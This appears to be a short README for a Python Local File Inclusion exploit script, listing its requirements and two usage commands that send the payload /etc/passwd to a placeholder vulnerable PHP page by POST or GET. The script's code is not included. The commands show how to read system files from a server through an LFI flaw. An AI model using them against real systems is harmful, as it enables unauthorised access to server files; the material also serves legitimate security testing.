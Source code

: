 # LFI Exploit Script

A simple Python script to exploit Local File Inclusion (LFI) vulnerabilities using GET or POST requests.

## Usage

The script sends an LFI payload to a vulnerable URL with a specified parameter.

### Requirements
- Python 3.11+
- `requests` library (install via `pip install requests`)

### Running the script

#### POST request (default)
```bash
python lfi_exploit.py http://example.com/vuln_page.php param /etc/passwd
```

#### GET reqeust
```bash
python lfi_exploit.py http://example.com/vuln_page.php param /etc/passwd GET
```
